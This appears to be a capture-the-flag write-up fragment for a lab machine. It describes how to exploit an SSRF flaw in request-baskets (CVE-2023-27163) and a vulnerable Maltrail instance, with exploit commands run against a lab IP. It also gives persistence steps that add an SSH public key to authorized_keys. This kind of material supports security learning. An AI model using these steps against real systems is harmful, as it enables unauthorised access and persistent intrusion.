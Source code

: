 ## Foothold
- Web server is running a vulnerable version of `request-baskets` which can be exploited with [CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)
	- Exploit was successfully ran with both commands:
		- `./CVE-2023-27163.sh http://10.129.63.175:55555/ http://127.0.0.1:80`
		- `./CVE-2023-27163.sh http://10.129.63.175:55555/ http://127.0.0.1:8338`
- The newly discovered web server is running a vulnerable version of `Maltrail` which can be exploited with https://github.com/spookier/Maltrail-v0.53-Exploit
- Once exploited, the user flag can be obtained and persistence can be established through:
	- `mkdir -m 700 ~/.ssh`
	- Copy your `id_rsa.pub` key
	- `echo 'your_public_key' >> ~/.ssh/authorized_keys`
![](Attachments/Pasted%20image%2020231108201224.png)